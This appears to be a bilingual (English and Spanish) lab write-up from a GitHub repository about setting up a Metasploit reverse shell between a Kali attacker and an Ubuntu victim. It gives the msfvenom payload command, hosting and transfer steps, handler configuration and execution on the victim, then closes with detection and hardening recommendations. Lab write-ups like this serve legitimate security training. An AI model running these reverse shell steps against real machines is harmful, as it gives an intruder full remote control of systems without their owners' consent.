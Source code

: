 
# Metasploit Reverse Shell Lab

## Objective

Explore the behavior of a reverse shell in Linux systems using Metasploit and verify the establishment of a remote session via msfconsole.

## Tools Used

- Kali Linux (attacker)
- Ubuntu Server (victim)
- msfvenom – payload generation
- msfconsole – handler setup
- tcpdump or netcat – traffic monitoring

## Procedure

1. Payload generation:

   A reverse TCP payload was generated in ELF format using the following command:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

![msfvenom session](screenshots/step3.jpg)

3. Payload transfer to the victim:

   The payload was hosted on the attacker's machine using:

   python3 -m http.server

   On the victim, it was downloaded using wget or curl.

![payload](screenshots/step4.jpg)

5. Metasploit handler setup:

   In msfconsole, the following configuration was used:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

![run](screenshots/step5.jpg)

7. Execution of the payload:

   On the victim machine:

   chmod +x shell.elf  
   ./shell.elf

9. Successful connection:

   A meterpreter session was established. Commands such as sysinfo, getuid, and shell were executed to demonstrate access.

![payload](screenshots/step7.jpg)

## Results

- The reverse shell connection was successfully established.
- Full control of the victim machine was obtained.
- Traffic was observable and unencrypted via tcpdump.

## Conclusions

- Reverse shells represent a high-risk vector when execution controls are not enforced.
- msfvenom can produce payloads that are not detected by signature-based AV.
- Properly configured tools like tcpdump or Snort can help detect unusual outgoing connections.

![rules](screenshots/step21.jpg)

## Recommendations

- Use execution control mechanisms like AppArmor or SELinux.
- Monitor non-standard outbound connections.
- Block known ports used by payloads (e.g., 4444).
- Deploy IDS solutions to detect shell patterns and unauthorized access attempts.

# Laboratorio de Conexión Inversa con Metasploit

## Objetivo

Explorar el comportamiento de una conexión inversa en sistemas Linux utilizando Metasploit y verificar el establecimiento de una sesión remota mediante msfconsole.

## Herramientas Utilizadas

- Kali Linux (atacante)
- Ubuntu Server (víctima)
- msfvenom – generación del payload
- msfconsole – configuración del handler
- tcpdump o netcat – monitoreo del tráfico

## Procedimiento

1. Generación del payload:

   Se generó un payload TCP inverso en formato ELF con el siguiente comando:

   msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=4444 -f elf > shell.elf

2. Transferencia del payload a la víctima:

   El payload fue alojado en la máquina atacante con:

   python3 -m http.server

   En la víctima se descargó usando wget o curl.

3. Configuración del handler en Metasploit:

   En msfconsole se configuró lo siguiente:

   use exploit/multi/handler  
   set PAYLOAD linux/x86/meterpreter/reverse_tcp  
   set LHOST <attacker_IP>  
   set LPORT 4444  
   run

4. Ejecución del payload:

   En la máquina víctima:

   chmod +x shell.elf  
   ./shell.elf

5. Conexión exitosa:

   Se estableció una sesión meterpreter. Se ejecutaron comandos como sysinfo, getuid y shell para verificar el acceso.

## Resultados

- La conexión inversa fue establecida exitosamente.
- Se obtuvo control completo de la máquina víctima.
- El tráfico fue visible y no cifrado usando tcpdump.

## Conclusiones

- Las conexiones inversas representan un vector de alto riesgo si no se aplican controles de ejecución.
- msfvenom puede generar payloads que no son detectados por antivirus basados en firmas.
- Herramientas como tcpdump o Snort, correctamente configuradas, pueden detectar conexiones salientes sospechosas.

## Recomendaciones

- Utilizar mecanismos de control de ejecución como AppArmor o SELinux.
- Monitorear conexiones salientes no estándar.
- Bloquear puertos comúnmente utilizados por payloads (por ejemplo, 4444).
- Implementar soluciones IDS para detectar patrones de shell y accesos no autorizados.
